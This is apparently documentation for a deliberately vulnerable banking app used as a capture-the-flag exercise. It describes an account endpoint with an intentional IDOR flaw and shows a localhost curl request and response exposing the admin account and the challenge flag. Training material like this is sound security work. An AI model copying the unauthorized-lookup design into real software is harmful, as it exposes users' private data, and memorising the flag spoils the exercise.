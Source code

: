#### GET /api/v1.0/account
**🚨 IDOR Vulnerability**: Get detailed account information by account number. No authorization required (intentionally vulnerable for educational purposes).

**Query Parameters:**
- `account_number` (required): The account number to retrieve

**Example:**
```bash
curl "http://localhost:5000/api/v1.0/account?account_number=ADM001"
```

**Response:**
```json
{
  "success": true,
  "account": {
    "id": 1057,
    "username": "admin",
    "email": "admin@razzbank.com",
    "full_name": "System Administrator",
    "account_number": "ADM001",
    "balance": 999999.99,
    "role": "admin",
    "created_at": "2025-01-07 10:30:00",
    "system_message": {
      "type": "security_alert",
      "message": "IDOR vulnerability detected: Unauthorized admin account access",
      "flag": "RAZZ{y0U_H@v3_f()UNd_$QL_!NJ3CT10N}",
      "description": "Main challenge flag"
    }
  },
  "recent_transactions": [
    {
      "date": "2025-01-07 09:15:30",
      "description": "Bill payment to electric",
      "amount": -150.0,
      "from_account": "ADM001",
      "to_account": "ELECTRIC",
      "type": "bill_payment"
    }
  ],
  "security_notice": {
    "vulnerability": "IDOR (Insecure Direct Object Reference)",
    "description": "This endpoint demonstrates an IDOR vulnerability where any user can access any account details without proper authorization",
    "impact": "Unauthorized access to sensitive account information",
    "educational_purpose": true
  },
  "api_version": "1.0",
  "timestamp": "2025-01-07T10:30:15.123456"
}
```
